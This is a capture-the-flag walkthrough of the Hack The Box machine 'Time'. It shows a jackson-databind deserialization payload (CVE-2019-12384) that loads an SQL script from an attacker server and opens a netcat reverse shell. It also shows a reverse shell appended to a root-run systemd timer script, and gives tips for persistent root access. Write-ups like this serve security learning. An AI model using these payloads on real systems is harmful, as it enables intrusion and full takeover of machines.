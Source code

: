 ```yaml
---
title: 'Walktrough: HTB Time'
namespace: htb-time
language: en-US
category: Walkthrough
tags:
- HackTheBox
- Jackson
- FasterXML
- Service Hijack
- HTB Linux
- HTB Medium
date: 2021-04-03T16:00:00.000+00:00
header:
  teaser: https://i.imgur.com/jiSvU4u.png
  og_image: https://i.imgur.com/jiSvU4u.png
redirect_from: "/writeup/2021/04/htb-time"

---
```

Hello everyone!

The machine of this week will be **Time**, another Linux box medium rated from [Hack The Box](https://www.hackthebox.eu), created by [
egotisticalSW](https://app.hackthebox.eu/users/94858) and [felamos](https://app.hackthebox.eu/users/27390).<!--more-->

:information_source: **Info**: Write-ups for Hack the Box are always posted as soon as machines get retired.
{: .notice--info}

![HTB Time](https://i.imgur.com/mJmeefG.png){: .align-center}

## Enumeration

We start with the enumeration of published services using a `nmap` quick scan, where we can see the output below:

```bash
$ nmap -sC -sV -Pn -oA quick 10.10.10.214
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-26 16:08 -03
Nmap scan report for 10.10.10.214
Host is up (0.077s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.70 seconds
```

### 80/TCP - HTTP Service

Starting by checking the HTTP service published on port 80, noticed that we have a JSON Validation and Beautifier service.

![Online JSON Parser - Time](https://i.imgur.com/V6RbC9L.png){: .align-center}

After some enumeration with `whatweb` and `nikto`, I haven't found anything useful, so I proceeded to app experimentation, looking for some vulnerability that could lead us to some code injection or LFI.

Analyzing the application, we have two functionalities: **Beautify** and **Validate**:

- The option beautify, after receiving a valid JSON, formats it in a pretty manner and, sending an invalid content (e.g. "test"), returns a `null` value.

![Online JSON Parser - Time - beautify](https://i.imgur.com/tpO2p3r.png){: .align-center}

- The Validate option (in beta) checks the syntax of the JSON provided. When we send an invalid request (e.g. "test"), the exception below is returned.

```plaintext
Validation failed: Unhandled Java exception: com.fasterxml.jackson.core.JsonParseException: Unrecognized token 'test': was expecting 'null', 'true', 'false' or NaN
```

## Initial Access

After searching for `com.fasterxml.jackson.core` I have found about the **Jackson** project, developed by **FasterXML** and from which core is the base component for [jackson-databind](https://github.com/FasterXML/jackson-databind), a popular JSON library, here used to implement the formatting and validating features.

Looking for CVEs on jackson-databind, I have found the following for code execution published in 2019, according to the page [CVE Details](https://www.cvedetails.com):

![CVE Details](https://i.imgur.com/T2Kth6e.png){: .align-center}

Of the 4 listed, I have found for **CVE-2019-12384** a working PoC at [this blog](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html), which I have used to gain initial access to the box. The following steps were used to get a reverse shell:

- Created a file called `inject.sql` with the code below, modified from the version at the blog, to start a reverse shell to the attacker machine at 4443 and published using a python3 HTTP server (`sudo python3 -m http.server 80`) from the directory where the file resides.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f')
```

- Configured listener using netcat by running `nc -lnvp 4443`.
- Sent payload below in the application instead of a JSON content to be validated.

```plaintext
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.10.10/inject.sql'"}]
```

![Listener and Webserver - Time](https://i.imgur.com/7o42urH.png){: .align-center}

![Online Json Parser - Sending the payload](https://i.imgur.com/Pv2Vbzy.png){: .align-center}

## User flag

After upgrading the shell, started enumeration where was identified that the user we were using, **pericles**, was a regular Linux user with no special permissions granted.

```bash
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
```

Accessing its root directory found the user flag, as below.

```bash
pericles@time:/var/www/html$ cd ~
pericles@time:/home/pericles$ cat user.txt 
<redacted>
pericles@time:/home/pericles$ 
```

## Root flag

Before continuing enumeration, to make easier regaining access if needed, created an SSH key using `ssh-keygen` and configured the public key in the file `~/.ssh/authorized_keys`, allowing us to directly connect to the user pericles via SSH.

The enumeration was done by running `linpeas.sh` and one of the findings called attention, referring to the machine name: a shell file owned by `pericles` in the path `/usr/bin/timer_backup.sh`.

This file is configured as a **system timer** (`/etc/systemd/system/timer_backup.timer` and `/etc/systemd/system/timer_backup.service`) and set be executed **every 10 seconds** as `root`.

As we have enough permissions to edit the shell script, I have added the line below to return a reverse shell on the attacker machine and, after a few seconds, a reverse shell was obtained! :smile:

```bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
```

As the process is re-executed every 10 sec the process tree is terminated, and we lose the existing connection to the machine. To just get the root flag this time is sufficient, which was as done initially.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.214] 33304
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
#      
```

In case you want to get a persistent connection at this machine we have two initial options:

- Configure the system timer to add the public key in the `/root/.ssh/authorized_keys` file, allowing us to SSH as `root`.
- Spawn another reverse shell as soon as we get the initial connection, which can be done in multiple ways like Metasploit AutoRunScript and `netcat`, prepending the listener with the instruction to send the payload as soon as it gets connected, as you can see in an example below where the `id` command is executed as soon as the session is started:

```bash
printf "id\n" | nc -lnvp 4443
```

I hope this was useful to you and see you guys in the next post! :smiley:
